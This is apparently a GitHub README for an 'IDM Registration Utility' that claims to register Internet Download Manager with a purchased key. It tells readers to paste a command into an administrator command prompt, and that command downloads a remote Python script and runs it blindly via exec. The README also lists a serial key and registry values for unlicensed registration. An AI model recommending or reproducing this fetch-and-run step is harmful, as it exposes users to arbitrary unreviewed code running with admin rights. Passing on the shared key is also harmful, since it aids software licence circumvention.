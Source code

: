 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my repository! This IDM is not crack or unoffcial vertion, it just register IDM with valid key which has been purchased !
Crack and Unoficial vertion contains Virus and trojans, you can download official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Herse the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in resources folder.


## Screenshots
Here's a screenshot of what the Registerd IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Pythion on your device.
2. Copy this command, and past it on cmd (Administration required)
```python
C:\Windows\py.exe -m pip install requests && C:\Windows\py.exe -c "import urllib.request, requests; exec(urllib.request.urlopen('https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py').read().decode())"
```
3.Your good to go !

---

## Additional Info


```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="info@tonec.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```

